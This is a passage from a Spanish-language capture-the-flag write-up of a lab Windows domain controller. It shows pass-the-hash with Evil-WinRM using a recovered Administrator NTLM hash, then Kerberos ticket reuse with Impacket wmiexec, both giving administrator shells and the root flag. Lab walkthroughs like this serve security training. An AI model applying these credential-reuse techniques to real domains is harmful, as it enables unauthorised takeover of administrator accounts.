SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\Administrator:1356f502d2764368302ff0369b1121a1 (Pwn3d!)
```

Procederemos a conectarnos al Domain Controller realizando _**Pass-The-Hash**_, logramos obtener la flag de **root.txt**.

```bash
❯ evil-winrm -i dc01.infiltrator.htb -u 'Administrator' -H '1356f502d2764368302ff0369b1121a1'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
d97142dec41*********************
```

También podemos hacer uso del ticket TGT `administrator.ccache` para autenticarnos y conectarnos al Domain Controller mediante `wmiexec` por ejemplo.

```basic
❯ KRB5CCNAME=administrator.ccache wmiexec.py infiltrator.htb/Administrator@dc01.infiltrator.htb -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
infiltrator\administrator
```
